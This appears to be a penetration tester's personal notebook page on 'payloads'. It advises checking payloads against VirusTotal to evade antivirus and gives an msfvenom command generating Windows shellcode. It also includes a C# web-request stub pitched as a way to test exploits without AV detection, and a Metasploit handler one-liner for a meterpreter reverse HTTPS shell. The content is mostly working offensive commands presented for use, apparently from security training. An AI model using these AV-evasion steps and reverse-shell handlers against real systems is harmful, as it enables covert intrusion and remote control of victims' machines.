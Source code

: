 ```yaml
---
creation date: November 8th 2023
last modified date: November 8th 2023
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[payloads]]  
___

## Description:  

Use virus total to ensure that these payloads wont get caught by AV

Testing with ping:
```
msfvenom -f c -p windows/exec CMD="cmd.exe /C ping 192.168.0.135"

tcpdump icmp -n -i wlan0
```

.NET code for a a web request. This is good to test exploits without getting caught by AV. Needs to be compiled with visual studio or another compiler:

```
Raw C# code:

using System;
using System.Net.Http;
using System.Threading.Tasks;
 
class Program
{
    static async Task Main()
    {
        using (HttpClient httpClient = new HttpClient())
        {
            string url = "http://172.16.131.150/test";
            HttpResponseMessage response = await httpClient.GetAsync(url);
        }
    }
}


Run on Kali:
sudo python3 -m http.server 80
```


### Metasploit Reverse Shell

```
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set EXITFUNC thread; set LHOST <IP>; set LPORT 443; exploit -j"



```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: November 8th 2023 (10:25 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
